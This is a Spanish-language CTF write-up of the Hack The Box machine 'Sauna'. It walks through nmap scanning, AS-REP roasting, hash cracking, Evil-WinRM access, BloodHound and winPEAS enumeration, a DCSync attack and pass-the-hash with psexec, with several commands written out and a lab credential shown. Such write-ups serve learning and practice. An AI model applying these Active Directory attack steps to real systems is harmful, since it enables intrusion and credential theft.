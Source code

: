 ```yaml
---
layout: single
title: Sauna - Hack The Box
excerpt: "Sauna fue una buena oportunidad para jugar con los conceptos de Windows Active Directory empaquetados en una caja de dificultad fácil. Comenzaré usando una fuerza bruta de Kerberoast en los nombres de usuario que encontre en la pagina web, luego descubriré que uno de ellos tiene la bandera configurada para permitirme obtener su hash sin autenticarme en el dominio. Haré AS-REP Roast para obtener el hash, romperlo y obtener una shell. Encontraré las credenciales de los próximos usuarios en la clave de registro de AutoLogon. BloodHound mostrará que el usuario tiene privilegios que le permiten realizar un ataque DC Sync, que proporciona todos los hashes de dominio, incluidos los administradores, que usaré para obtener un shell."
date: 2021-07-05
classes: wide
header:
  teaser: /assets/images/Sauna/Untitled.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:
  -   Active Directory
  -   ASP-RESP Roasting
  -   OSCP
---
```


# Sauna HTB

Buenas a todos, hoy voy a estar resolviendo la maquina Sauna de HackTheBox, es una maquina Windows de dificultad facil, en ella vamos a tocar Directorio Activo.

![/assets/images/Sauna/Untitled.png](/assets/images/Sauna/Untitled.png)

# **ENUMERACIÓN CON NMAP**

Lo primero de todo como siempre será enumerar que puertos tiene abiertos la maquina, para ellos vamos a utilizar la herramienta "nmap" con la que haremos un escaneo exhaustivo de puertos.

Para hacer un "Fast Scan" de puertos, siempre suelo utilizar esta sintaxis:

`nmap -sS —min-rate 5000 -p- —open -n -Pn -vvv <IPMACHINE> -oN <FILENAME>` 

![/assets/images/Sauna/Untitled%201.png](/assets/images/Sauna/Untitled%201.png)

Yo lo exporto en formato Grep para extraer los puertos con la utilidad "extractPorts" del Youtuber/Streamer "S4vitaar".

Esta utilidad me copia los puertos en la clipboard. Os comparto el Script por aquí pero recordad dejar una estrellita en el Github de S4vitar: (solo tenéis que tener instalado xclip y pegar este código en la .bashrc o .zshrc)

[https://pastebin.com/tYpwpauW](https://pastebin.com/tYpwpauW) 

![/assets/images/Sauna/Untitled%202.png](/assets/images/Sauna/Untitled%202.png)

Ahora vamos a enumerar versiones y servicios de todos los puertos con Nmap:

`nmap -sC -sV -p<PUERTOS> <IPMACHINE> -oN <FILENAME>`

![/assets/images/Sauna/Untitled%203.png](/assets/images/Sauna/Untitled%203.png)

Vemos que nmap nos arroja un nombre de dominio llamado: EGOTISTICAL-BANK.LOCAL , vamos a añadirlo al /etc/hosts junto con sauna.htb

Después de enumerar un poco los puertos, no veo nada interesante en el puerto 445 (SAMBA) un puerto que siempre es muy importante de echarle un vistazo, pero no tenemos acceso para poder ver los recursos, así que voy a ir directamente al servicio web que corre en el puerto 80. 

![/assets/images/Sauna/Untitled%204.png](/assets/images/Sauna/Untitled%204.png)

Vemos en About Us que hay unos nombres de usuarios con los que podriamos crear posibles usuarios:

![/assets/images/Sauna/Untitled%205.png](/assets/images/Sauna/Untitled%205.png)

![/assets/images/Sauna/Untitled%206.png](/assets/images/Sauna/Untitled%206.png)

Con la utilidad GetNPUsers.py, podemos hacer un ataque ASP-RESP Roasting, intentararemos obtener algun hash:

`python3 GetNPUsers.py 'EGOTISTICAL-BANK.LOCAL/' -userfile users -format hashcat -outputfile hash -dc-ip 10.10.10.175`

![/assets/images/Sauna/Untitled%207.png](/assets/images/Sauna/Untitled%207.png)

Vamos a intentar crackear con john el hash:

![/assets/images/Sauna/Untitled%208.png](/assets/images/Sauna/Untitled%208.png)

Ya tenemos la contraseña del usuario `fsmith:Thestrokes23`

Vamos a intentar conectarnos al sistema con Evil-WinRM:

`evil-winrm -i 10.10.10.175 -u fsmith -p Thestrokes23`

![/assets/images/Sauna/Untitled%209.png](/assets/images/Sauna/Untitled%209.png)

![/assets/images/Sauna/Untitled%2010.png](/assets/images/Sauna/Untitled%2010.png)

# **PRIV. ESCALATION ROOT**

Nos compartimos un servidor http con python con el comando :

`python3 -m http.server 80`

![/assets/images/Sauna/Untitled%2011.png](/assets/images/Sauna/Untitled%2011.png)

Pasamos el script de powershell `SharpHound.ps1` a la maquina y ejecutamos el comando :

`Invoke-BloodHound -CollectionMethod All`

![/assets/images/Sauna/Untitled%2012.png](/assets/images/Sauna/Untitled%2012.png)

Para que nos haga una recopilacion de todo el sistema y nos lo guarde en un .zip, que nos vamos a pasar a nuestra maquina, para ello compartimos una carpeta de nuestro sistema con la maquina:

`python3 smbserver.py share . -smb2support -username pwned -password password123`

![/assets/images/Sauna/Untitled%2013.png](/assets/images/Sauna/Untitled%2013.png)

Y en la maquina remota :

`net use \\IP\share /u:pwned password123`

De esta manera nos compartimos la carpeta actual y podemos copiar el .zip a nuestra maquina:

`copy <FILENAME.ZIP> \\IP\share`

![/assets/images/Sauna/Untitled%2014.png](/assets/images/Sauna/Untitled%2014.png)

Abrimos nuestro BloodHound y agregamos el .zip para ver de que forma podemos escalar privilegios:

Enumerando un poco encontramos que hay un usuario (SVC_LOANGMGR) con el que podríamos convertirnos en Domain Admins:

![/assets/images/Sauna/Untitled%2015.png](/assets/images/Sauna/Untitled%2015.png)

Vamos a enumerar un poco mas el sistema para ver si conseguimos convertirnos en ese usuario, voy a utilizar Invoke-winPEAS.ps1, me lo comparto de la misma forma que antes y ejecuto:

`Invoke-winPeas`

Y nos reporta unas credenciales de un usuario llamado svc_loanmanager: 

![/assets/images/Sauna/Untitled%2016.png](/assets/images/Sauna/Untitled%2016.png)

Vamos a intentar conectarnos a esa cuenta a traves de evil-winrm:

![/assets/images/Sauna/Untitled%2017.png](/assets/images/Sauna/Untitled%2017.png)

Si nos fijamos bien no hay ningun usuario llamado svc-loanmanager:

![/assets/images/Sauna/Untitled%2018.png](/assets/images/Sauna/Untitled%2018.png)

Vamos a intentar utilizar esas credenciales para el usuario que necesitamos svc_loanmgr:

![/assets/images/Sauna/Untitled%2019.png](/assets/images/Sauna/Untitled%2019.png)

Estamos dentro de la cuenta que necesitamos, ahora toca escalar privilegios tal y como nos muestra BloodHound:

![/assets/images/Sauna/Untitled%2020.png](/assets/images/Sauna/Untitled%2020.png)

Podemos realizar un ataque DCSync con el usuario SVC_LOANMGR, Para extraer credenciales del controlador de dominio sin ejecución de código en él podemos usar la herramienta secretsdump de impacket o con mimikatz como dice BloodHound:

![/assets/images/Sauna/Untitled%2021.png](/assets/images/Sauna/Untitled%2021.png)

Ya tenemos el hash del administrador del dominio, podemos usar la herramienta psexec de impacket para conectarnos a la maquina sin necesidad de saber su contraseña, solo con su hash es suficiente:

![/assets/images/Sauna/Untitled%2022.png](/assets/images/Sauna/Untitled%2022.png)

Espero que os haya gustado, a mi me ha encantado, las maquinas de Directorio Activo son muy divertidas de vulnerar. Hasta la próxima.